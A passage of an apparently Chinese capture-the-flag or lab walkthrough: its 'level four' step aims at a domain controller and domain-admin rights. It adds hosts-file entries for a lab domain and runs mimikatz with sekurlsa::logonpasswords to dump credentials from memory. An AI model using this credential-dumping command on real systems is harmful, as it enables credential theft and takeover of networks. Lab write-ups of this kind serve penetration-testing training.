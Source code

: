 ## 第四关

```bash
发现域控制器所存在的漏洞，尝试获取域内管理员权限。
```

现在/etc/hosts 添加一下解析

[![](assets/1708919820-0ede83618313499bc2e9533d4d2ccc5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024947-d35ef3aa-cb69-1.png)

```bash
172.22.61.17 xiaorang.lab
172.22.61.17 dc.xiaorang.lab
```

上传秘密卡提兹

```bash
/mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords
" "exit"
```

[![](assets/1708919820-3cd70f37cbe1dd89f23e099974eebaef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024953-d6c71f36-cb69-1.png)
